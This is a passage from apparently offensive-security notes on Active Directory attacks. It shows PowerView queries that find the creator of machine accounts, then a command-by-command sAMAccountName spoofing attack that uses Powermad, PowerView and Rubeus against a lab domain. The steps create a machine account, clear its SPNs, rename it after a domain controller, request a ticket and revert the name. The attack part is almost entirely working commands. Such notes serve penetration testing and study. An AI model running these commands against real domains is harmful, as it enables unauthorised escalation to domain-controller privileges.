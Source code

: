 Query number of machines an account has joined

```powershell
# Find creator of machine
PS C:\Tools> Import-Module .\PowerView.ps1
PS C:\Tools> $computerName = 'COMPUTERTEST1'
PS C:\Tools> $computer = Get-DomainComputer -Identity $computerName -Properties 'ms-DS-CreatorSID'
PS C:\Tools> $sid = (New-Object System.Security.Principal.SecurityIdentifier($computer.'ms-DS-CreatorSID', 0)).Value
PS C:\Tools> ConvertFrom-SID $sid
ZENCROP\john

# Find how many machines creator created
PS C:\Tools> $computers = Get-DomainComputer -Filter '(ms-DS-CreatorSID=*)' -Properties name,ms-ds-creatorsid
PS C:\Tools> $aneudyComputers = $computers | where { (New-Object System.Security.Principal.SecurityIdentifier($_."ms-ds-creatorsid",0)).Value -eq (ConvertTo-SID aneudy) }
PS C:\Tools> $aneudyComputers.Count
10
```

### <mark style="color:yellow;">Abusing sAMAccountName Spoofing from Windows</mark>

First start with creating a computer account

```powershell
Import-Module .\Powermad.ps1
$password = ConvertTo-SecureString 'Password123' -AsPlainText -Force
New-MachineAccount -MachineAccount "TEST01" -Password $($password) -Domain zencorp.local -DomainController 172.18.88.10 -Verbose
```

Clear the SPNs

```powershell
Import-Module .\PowerView.ps1
Set-DomainObject -Identity 'TEST01$' -Clear 'serviceprincipalname' -Domain zencorp.local -DomainController 172.18.88.10 -Verbose
```

Impersonate DC by chaning account name

```powershell
Set-MachineAccountAttribute -MachineAccount "TEST01" -Value "dc03" -Attribute samaccountname -Domain zencorp.local -DomainController 172.18.88.10 -Verbose
```

Request a ticket with TEST01 credentials, it will get DC info back

```powershell
.\Rubeus.exe asktgt /user:dc03 /password:"Password123" /domain:zencorp.local /dc:172.18.88.10 /nowrap
```

Revert the TEST01 sAMAccountName to original value

```powershell
Set-MachineAccountAttribute -MachineAccount "TEST01" -Value "TEST01" -Attribute samaccountname -Domain zencorp.local -DomainController 172.18.88.10 -Verbose
```
